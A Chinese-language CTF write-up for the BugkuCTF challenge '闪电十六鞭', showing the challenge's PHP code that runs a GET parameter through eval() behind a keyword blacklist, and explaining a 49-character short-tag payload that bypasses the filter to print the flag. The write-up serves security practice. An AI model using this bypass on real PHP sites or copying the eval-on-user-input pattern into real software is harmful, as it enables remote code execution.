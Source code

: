 ```yaml
---
title: BUgKu——闪电十六鞭
date: 2022-1-13 10:07:50
updated: 2022-1-13 10:07:50
categories: 渗透练习
tags: ctf
urlname:
keywords: ctf,BugkuCTF,闪电十六鞭
---
```


### BUgKu——闪电十六鞭

题目给出的php代码如下：

```php
<?php
    error_reporting(0);
    require __DIR__.'/flag.php';

    $exam = 'return\''.sha1(time()).'\';';

    if (!isset($_GET['flag'])) {
        echo '<a href="./?flag='.$exam.'">Click here</a>';
    }
    else if (strlen($_GET['flag']) != strlen($exam)) {
        echo '长度不允许';
    }
    else if (preg_match('/`|"|\.|\\\\|\(|\)|\[|\]|_|flag|echo|print|require|include|die|exit/is', $_GET['flag'])) {
        echo '关键字不允许';
    }
    else if (eval($_GET['flag']) === sha1($flag)) {
        echo $flag;
    }
    else {
        echo '马老师发生甚么事了';
    }

    echo '<hr>';

    highlight_file(__FILE__);
```

这里解释一下：

题目要求给出get请求参数flag并满足一下条件：
①长度与$exam的长度相等，这里我们可以通过输出\$exam的长度来确定

```php
<?php
    $exam = 'return\''.sha1(time()).'\';';
    echo strlen($exam);
?>
```

输出结果是49，也就意味着给出参数flag的长度也应为49。

②给出的参数的值中不能含有关键字：‘，“，.,\\,(,),[,],_,flag,echo,print,require,include,die,exit,is

③在第三处if语句中我们看到的eval函数，我们可以通过这个函数来进行短标签绕过，具体绕过方法如下：

```php
?flag=$a='blag';$a{0}='f';?>11111111111111111;<?=$$a;?>
```

其中：

{}代替了[]

<?=$$a;?>与<?php echo $$a;?>具有相同的效果

中间的1是为了填充长度



